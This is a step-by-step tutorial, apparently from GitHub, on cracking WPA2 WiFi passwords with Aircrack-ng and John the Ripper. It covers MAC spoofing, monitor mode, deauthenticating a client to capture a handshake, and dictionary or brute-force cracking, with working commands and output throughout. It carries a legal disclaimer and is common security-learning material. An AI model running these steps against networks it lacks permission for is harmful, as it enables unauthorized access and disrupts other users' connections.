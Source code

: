 ### WiFi Hacking with Aircrack and John The Ripper

Nowadays people assume that as long as they don't use WEP or a really bad password, their WiFi is safe. Many assume that in-order to 'hack' their WiFi someone needs to be there, testing passwords against their router. This is unfortunately not the case. I'm going to show you how easy it is to crack a WPA password and gain access to a network.

# DISCLAIMER: Hacking is generally only legal on devices you own or have full-written consent to do so on. Otherwise doing so is illegal and can lead to JAIL. Be smart with your knowledge!

First stop, [Kali!](https://www.kali.org/) If you don't know how to download and run Kali Linux, then you probably shouldn't be messing around with this. All of the tools we'll use for this are standard in Kali, along with numerous others.

**Tools:**
- Aircrack's suite of tools
- John The Ripper
- ifconfig (optional)
- Macchanger (optional)
- Injection capable WiFi card (optional)

**Step 1: Find out what your WiFi interface (card) is called**
```
home ~ $ ifconfig -a 
wlp12s0   Link encap:Ethernet  HWaddr 00:40:ff:6f:d8:97
          BROADCAST MULTICAST  MTU:1500  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)
```
We're using ifconfig here. It's a great tool to find out useful information about your network interfaces. Here we see that 'wlp12s0' is the name of our wireless card (wirless interfaces generally start with a 'w', where loopbacks start with 'l' and ethernet start with 'e').

**Step 2: Change your MAC address**
```
home ~ # macchanger -A wlp12s0
Current MAC:   00:40:ff:6f:d8:97 (TELEBIT CORPORATION)
Permanent MAC: 12:34:56:78:90:12 (Intel Corporate)
New MAC:       00:1f:e9:8b:10:50 (Printrex, Inc.)
```
Next we'll use macchanger to change our MAC address (the ID associated with our network card that it will broadcast over the ether) to something random (-A). It's a great tool to know about.

**Step 3: Enable Monitor Mode on your WiFi interface**
```
home ~ # airmon-ng start wlp12s0
Found 5 processes that could cause trouble.
If airodump-ng, aireplay-ng or airtun-ng stops working after
a short period of time, you may want to kill (some of) them!

PID    Name
1047    avahi-daemon
1065    NetworkManager
1072    avahi-daemon
1347    wpa_supplicant
1940    dhclient

Interface    Chipset        Driver

wlp12s0        Intel 3945ABG    iwl3945 - [phy0]SIOCSIFFLAGS: Operation not possible due to RF-kill

                (monitor mode enabled on mon0)
```
Here we have airmon actually activate Monitor Mode on our wireless card. Not all card are capable of this, but fortunately ours (and most) is. Airmon also lets us know that there are some programs running which may interfere with monitor mode, so we can kill them if that's the case. Additionally, it tells us that our monitor interface (that it just created) is called 'mon0'. We could also find that out by simply running 'ifconfig' again.

**Step 4: Scan for your target**
```
home ~ # airodump-ng mon0
 CH  4 ][ Elapsed: 48 s ][ 2017-04-13 10:53 ][ paused output                                            
                                                                                                        
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                        
 E0:91:F5:0D:1B:99  -69      196        0    0  11  54 . WPA2 CCMP   PSK  Secure WiFi
```
Using airodump we finally get to see some networks, though I've sanitized this output to just what we're looking for. airodump will scan through every channel, updating information about all the networks it finds and sorting them based on signal strength. We find here our network (identified by it's ESSID "Secure WiFi"), it's BSSID (E0:91:F5:0D:1B:99), and it's channel number (11).

**Step 5: Perform a focused analysis of your target and wait for a handshake. If impatient, go to step 6.**
```
home ~ # airodump-ng --bssid E0:91:F5:0D:1B:99 -c 11 -w secure mon0
 CH 11 ][ Elapsed: 1 min ][ 2017-04-13 11:11 ][ paused output                                        
                                                                                                        
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                        
 E0:91:F5:0D:1B:99  -81  19      308        0    0  11  54 . WPA2 CCMP   PSK  Secure WiFi               
                                                                                                        
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                              
                                                                                                        
 E0:91:F5:0D:1B:99  00:37:6D:54:66:A4  -51    0 -54      0        1
```
Then we stop airdump and restart it with a much-more focused command. We'll only allow it to scan our desired channel, only display information about our desired BSSID, and save all captures to files beginning with 'secure'. Next we wait for a capture.

The goal behind these procedures so-far is to obtain a 'handshake' between a device (re)connecting to the network and the access point (router). This handshake contains the WiFi password in an encrypted form. Instead of simply waiting for a 'natural' handshake to occur (when a device normally connects or reconnects to the network) we can also force one. See step 6 for this. Skip to step 7 if you're patient.

**Step 6: If impatient, deauth a client**
```
home ~ # aireplay-ng -0 1 -a E0:91:F5:0D:1B:99 -c 00:37:6D:54:66:A4 mon0
11:22:40  Waiting for beacon frame (BSSID: E0:91:F5:0D:1B:99) on channel 11
11:22:42  Sending 64 directed DeAuth. STMAC: [00:37:6D:54:66:A4] [ 0| 5 ACKs]
```
If you're impatient you can force a client (device) to re-authenticate (reconnect) with an access point (router). This is done by sending 'deauthenticate'/'deauth' packets to the device using aireplay. Our options here are: '-0 1' to send one (1) deauth, '-a ...' to give the BSSID of the access point, and '-c ...' to give it the MAC of the client. These are all found in our airdump captures. This is not an end-all-be-all solution to forcing a deauth, so be prepared for it to not work after the first attempt, or even at-all with some devices.

**Step 7: Get a handshake!**
```
 CH 11 ][ Elapsed: 1 min ][ 2017-04-13 11:11 ][WPA handshake: E0:91:F5:0D:1B:99]                                      
                                                                                                        
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                        
 E0:91:F5:0D:1B:99  -81  19      308        0    0  11  54 . WPA2 CCMP   PSK  Secure WiFi               
                                                                                                        
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                              
                                                                                                        
 E0:91:F5:0D:1B:99  00:37:6D:54:66:A4  -51    0 -54      0        1
```
Now that you've sat around for a while or forced a deauth, you'll await the little message at the top of airdump (which you left running the whole time, right?) that will indicate a successfull WPA handshake capture.

**Step 8: Go offline. Yup the rest of this attack can be done at-home on your supercomputer.**

**Step 9: Use Aircrack to crack that password.**
```
home ~ # aircrack-ng -w rockyou.txt -b E0:91:F5:0D:1B:99 ./secure-05.cap
Aircrack-ng 1.2 beta3

                   [00:00:28] 32488 keys tested (1168.12 k/s)

                           KEY FOUND! [ zookeeper ]

      Master Key     : FF 8A BE B9 E3 08 17 A7 C0 11 BA 40 8F 46 CC FA
                       E5 7B B9 3D 06 13 34 E3 AB 25 96 5B 37 6F B6 76

      Transient Key  : 33 9F 8A 7E C7 8D 86 24 C0 15 5D 5D 35 2B A0 C5
                       2E 34 30 ED BC EF 61 8C 58 B4 FD A5 7B 25 CB 7F
                       CB 5B 49 C8 34 1F 35 25 58 BA 59 01 EC 0F 01 90
                       23 4B EF 33 A6 08 E0 9A 6E 74 69 65 9E 40 19 87

      EAPOL HMAC     : A3 4F 71 75 5A 9E E2 B2 D5 84 02 07 6D 12 01 1E
```
Aircrack is the final step here. You take your capture file (.cap), combine it with the BSSID of your target access point and a list of passwords (like [rockyou](https://wiki.skullsecurity.org/Passwords)), and TADA! There's your password. Of course this means in order for this to work, the password has to be in your wordlist. If its not, this won't work.

**Step 10: Done! You now have the target WiFi password.**

Alternatively, you can use John The Ripper to feed Aircrack it's passwords. The advantage of John is it's flexability, speed, and options that Aircrack simply doesn't offer.

You can simply feed Aircrack the same list of passwords it would already use:
```
home ~ # john --wordlist=./rockyou.txt --session=cracker --stdout | aircrack-ng -b E0:91:F5:0D:1B:99 ./secure-05.cap -w -
```
You can use John's smart brute-force mode:
```
home ~ # john --incremental --session=cracker --stdout | aircrack-ng -b E0:91:F5:0D:1B:99 ./secure-05.cap -w -
```
You can even resume a cracking session at a later time:
```
home ~ # john --restore=cracker | aircrack-ng -b E0:91:F5:0D:1B:99 ./secure-05.cap -w -
```
I've highlighted here only a few options, but all of these tools can be used in many ways to enhance their performance. Just look at the man pages!

**Happy Hunting,**<br>
**-@Bugg**

I'm not liable for anything you do. If you aren't being smart, that's on you!
